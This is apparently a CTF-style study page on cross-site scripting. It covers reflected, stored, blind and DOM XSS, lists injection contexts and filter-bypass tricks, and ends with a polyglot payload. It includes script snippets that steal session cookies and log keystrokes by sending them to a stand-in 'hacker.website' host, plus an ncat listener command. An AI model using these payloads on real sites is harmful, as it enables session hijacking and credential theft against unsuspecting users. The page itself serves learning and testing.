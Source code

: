 # XSS and Javascript vulnerabilities

[![xssgi](../../../_badges/xssgi.svg)](https://tryhackme.com/room/xssgi)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called **XSS**, refer to injecting malicious JavaScript in a web application with the goal of it being executed by other users.

**The usual proof of concept**: show an alert if the script was executed.

```js
<script>alert('XSS')</script>
```

I think you would enjoy more

```js
<script>console.log('XSS')</script>
```

<br>

You will most likely use these references:

* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) (42.5k ⭐)
* [OWASP Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) (22k ⭐)
* [OWASP DOM XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html) (22k ⭐)

<br>

One thing to remember is that you would rather make it invisible to the user that a script is being executed in its browser. As such, if you inject a malicious payload in the source attribute of an image field, it would be best to still make sure an image is properly displayed, so that it does not look suspicious at first glance.

</div><div>

<p class="text-center">Some attacks</p>

**Session hijacking**: anyone executing this script will send their cookie to a malicious website owned by the hacker used to capture cookies. The script is using `btoa()` to encode in base64 the values. Sessions cookies are gold 💰, because with them, we can simulate that we are logged, and bypass verifications such as 2FA.

```js
<script>fetch('https://hacker.website/steal?cookie=' + btoa(document.cookie));</script>
```

**A simple keylogger**: send each key pressed is sent to the hacker website. The script is using `btoa()` to encode in base64 the values.

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.website/keylogger?key=' + btoa(e.key) )}</script>
```

<br>

**Exploit the client privileges**: when a client is logged, then can do things on the website. Sometimes, the website is using an API, and the malicious code may use the client identify to do API calls, such as resetting the password, or stuff like that.

> In CTF, or to test that in local, you can create a server with ncat `nc -nlvp port`, and use `fetch('http://ip:port?x=...')`.
</div></div>

<hr class="sl">

## Reflected XSS

<div class="row row-cols-md-2"><div>

The malicious code is usually inside a URL, and the vulnerable website when loading the URL, will execute the malicious website.
</div><div>

For instance, "https://vulnerable.search.engine" is a search engine in which the query is stored in the URL in the parameter `q`. The website is vulnerable to XSS, so if we open the URL, then the javascript will run in our browser.

```
https://vulnerable.search.engine/?q=%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
```
</div></div>

<hr class="sr">

## Stored XSS

<div class="row row-cols-md-2"><div>

The malicious code is stored by the website, usually in a database. Then, in another page loading the data from the database, a vulnerable website will execute the malicious code.

> Comments, profiles, listings... may be vulnerable.
</div><div>

For instance, a user using the value `<script>alert('XSS');</script>` as username. Then, for instance on the vulnerable profile page, any user opening a link to the compromised profile, will execute the malicious code.
</div></div>

<hr class="sl">

## DOM Based XSS

...

<hr class="sr">

## Blind XSS

<div class="row row-cols-md-2"><div>

In blind XSS, you are usually sending a payload in a contact/support... forms, in order to maybe steal information from the admin-side website if any. We are calling it "blind XSS", because it's not possible to see if it's working.
</div><div>

See [xsshunter](https://github.com/mandatoryprogrammer/xsshunter) (1.2k ⭐)
</div></div>

<hr class="sl">

## XSS payloads

<table class="table table-bordered table-striped border-dark mt-4">
<thead>
<tr><th>Case</th><th>HTML</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>Boxed attribute</td><td><code>&lt;input value="here"&gt;</code></td><td><code>">MaliciousCodeHere</code></td></tr>

<tr><td>Unboxed attribute</td><td><code>&lt;input value=here&gt;</code></td><td><code>>MaliciousCodeHere</code></td></tr>

<tr><td>Wrapped</td><td><code>&lt;textarea>here&lt;/textarea&gt;</code></td><td><code>&lt;/textarea&gt;MaliciousCodeHere</code></td></tr>

<tr><td>JavaScript</td><td><code>xxx.innerHTML = 'here';</code></td><td><code>';MaliciousCodeHere;//</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onload="maliciousCodeHere"</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onerror="maliciousCodeHere"</code></td></tr>

</tbody></table>

<hr class="sr">

## Bypass filters

<div class="row row-cols-md-2"><div>

**Logic flaw**

Developers may not protect everything. For instance a select list in which a user is supposed to pick a country. A hacker can try to inject a malicious payload instead of a country, and as the developer used a select list, it may not be filtered.

**Bypass HTML symbols filtering**

If `<`, and `>` are filtered, an attacker may still use HTML attributes.
</div><div>

**Replace failures**

If a developer used a "replace" function, then they there are tricks such as the one below. If there is a filter removing "script", then after removal of "&lt;script&gt;", we will have "s" concatenated with "cript", and we successfully bypassed the filter.

```
<s<script>cript>alert('XSS');</s<script>cript>
// filter remove "<script>"
<script>alert('XSS');</script>
```

There are also various tricks using ASCII/... to bypass filters.
</div></div>

<hr class="sl">

## Polyglots - the magic payloads

<div class="row row-cols-md-2"><div>

XSS polyglots are sort of magic payloads designed to bypass many tags/attributes/filters/... at once.
</div><div>

An example

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```
</div></div>